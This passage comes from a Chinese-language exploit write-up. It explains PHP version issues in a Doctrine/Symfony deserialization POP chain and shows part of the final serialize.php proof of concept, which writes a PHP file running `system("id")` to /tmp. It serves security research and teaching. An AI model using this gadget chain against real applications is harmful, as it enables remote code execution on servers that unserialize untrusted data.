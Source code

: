在本文的 POP 链中，因为我们使用了两个基于 `__destruct()` 定义的不同链，所以快速析构是强制性的，

剩下还包括 PHP 的版本差异问题，PHP 版本对构造 POP 链很重要，由于所有的演示都是从 PHP 8 中进行的，它与 `TypedCacheItem` 兼容。然而， `TypedCacheItem` 与 PHP 7 应用程序不兼容，以下错误是从任何以前的 POP 链上的 `CacheAdapter` 引发的。

```plain
$ php unserialize.php 
Parse error: syntax error, unexpected 'private' (T_PRIVATE), expecting variable (T_VARIABLE) in /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/TypedCacheItem.php on line 24
```

类型定义在这里再次成为一个问题。正如本文前面所讨论的， `defferedItems` 有两个可能的值： `TypedCacheItem` 或 `CacheItem` ，`CacheItem` 应该在 PHP 7 之前或之前的版本上使用，如果 `doctrine/doctrine-bundle` 项目是从 PHP 8 安装的，当使用 `CacheItem` 而不是 `TypedCacheItem` 时，将触发下面的兼容性问题。

```plain
$ php unserialize.php 
Fatal error: Declaration of Doctrine\Common\Cache\Psr6\CacheItem::get() must be compatible with Psr\Cache\CacheItemInterface::get(): mixed in /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheItem.php on line 51
```

因此，出于此原因，POP 链必须根据目标的 PHP 版本进行调整。

## 第五步，全 POP 链

在考虑了最后的每一步完成之后，实现的 `serialize.php` 文件的最终版本如下所示：

```plain
<?php

/* Entrypoint of the POPchain POP 链的入口*/ 
namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class CacheItem
    {
        public $expiry = 99999999999999999;
        public $value = "test";
    }

    class TypedCacheItem
    {
        public $expiry = 99999999999999999;
        public $value = "test";
    }

}

/* File write objects 文件写入对象*/
namespace Symfony\Component\HttpFoundation\Session\Storage
{
    class MockFileSessionStorage
    {
        public $started = true;
        public $savePath = "/tmp"; // Produces /tmp/aaa.mocksess
        public $id = "aaa"; // File name
        public $data = ['<?php echo "I was TRIGGERED"; system("id"); ?>']; // PHP code executed
    }

    class MetadataBag
    {
        public $storageKey = "a";
    }
```